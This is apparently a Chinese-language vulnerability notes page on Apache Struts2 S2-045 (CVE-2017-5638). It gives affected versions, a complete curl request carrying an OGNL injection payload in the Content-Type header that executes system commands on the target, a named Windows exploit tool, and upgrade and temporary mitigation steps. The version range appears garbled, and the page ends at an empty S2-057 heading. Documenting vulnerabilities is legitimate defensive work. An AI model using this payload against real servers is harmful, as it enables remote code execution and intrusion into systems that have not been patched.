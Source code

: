# Struts2
Struts是Apache基金会的一个开源项目，Struts通过采用Java Servlet/JSP技术，实现了基于Java EE Web应用的Model-View-Controller(MVC)设计模式的应用框架，是MVC经典设计模式中的一个经典产品。

目前，Struts框架广泛应用于政府、公安、交通、金融行业和运营商的网站建设，作为网站开发的底层模板使用，是应用最广泛的Web应用框架之一。
## S2-045 CVE-2017-5638
### 漏洞说明


### 影响范围
2.3.31-2.3.5 2.5-2.5.10
### 验证方法
s2_045.py
```bash
curl -i -s -k  -X $'POST' \
    -H $'Host: 192.168.95.1:8081' -H $'User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36' -H $'Accept: */*' -H $'Connection: close' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: %{(#fuck=\'multipart/form-data\').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context[\'com.opensymphony.xwork2.ActionContext.container\']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd=\'whoami\').(#iswin=(@java.lang.System@getProperty(\'os.name\').toLowerCase().contains(\'win\'))).(#cmds=(#iswin?{\'cmd.exe\',\'/c\',#cmd}:{\'/bin/bash\',\'-c\',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}' -H $'Content-Length: 0' \
    $'http://10.228.31.149:82/index.action'
```
**windows**: K8_exp.exe

### 利用方法
**windows**: K8_exp.exe

### 修复方法
**1.官方解决方案**
官方已经发布版本更新，尽快升级到不受影响的版本（Struts 2.3.32或Struts 2.5.10.1）或struts2最新版本，建议在升级前做好数据备份。

Struts 2.3.32:https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32
Struts 2.5.10.1:https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1

2.临时修复方案
在用户不便进行升级的情况下，作为临时的解决方案，用户可以进行以下操作来规避风险：
在WEB-INF/classes目录下的struts.xml 中的struts 标签下添加
`<constant name="struts.custom.i18n.resources" value="global" />`
在WEB-INF/classes/ 目录下添加 global.properties，文件内容如下：
`struts.messages.upload.error.InvalidContentTypeException=1`


## S2-057 